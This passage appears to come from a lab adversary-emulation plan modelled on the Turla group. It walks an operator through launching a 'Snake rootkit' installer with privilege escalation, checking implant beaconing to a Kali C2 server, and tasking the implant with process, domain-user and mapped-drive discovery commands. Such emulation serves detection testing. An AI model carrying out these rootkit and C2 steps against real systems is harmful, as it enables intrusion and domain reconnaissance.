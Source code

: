 * Open File Explorer and browse to Desktop

* From the `egle` (:heavy_exclamation_mark: NOT `egleadmin`) powershell terminal, run the following command to execute the Snake rootkit installer with the privilege escalation option:

```powershell
C:\Users\Egle\Desktop\gusbsys.exe -f
```

* Within the RDP session, go to your Edge window. Perform a hard refresh on the current page by pressing Ctrl+Shift+R.

:arrow_right: Return to your Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

:arrow_right: Return to your Kali C2 server terminal window.

* From your lower Kali C2 terminal window, task the Snake rootkit to run the following process discovery command:

```bash
# Discover running processes
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that the enumerated processes output contains a process running under `EgleAdmin`

```bash
grep 'NK\\EgleAdmin' logs.txt -i
```

> This should return output similar to the following:
>
> ```text
> powershell.exe                2868 RDP-Tcp#6                  5     79,140 K Unknown         NK\egleadmin                                            0:00:00 N/A
> conhost.exe                   7368 RDP-Tcp#6                  5     18,088 K Unknown         NK\egleadmin                                            0:00:00 N/A
>    ```

* Wait 1 minute then execute the next discovery command to enumerate `EgleAdmin`'s groups:

```bash
# Enumerate details on EgleAdmin to find group membership
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "user /domain EgleAdmin"}'
```

:heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `EgleAdmin` is a member of.

* Wait 1 minute then execute the next discovery command to the drive mapped to the file server:

```bash
# Discover that the local machine has a drive mapped to the file server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "use", "runas": "nk\\Egle"}'
```

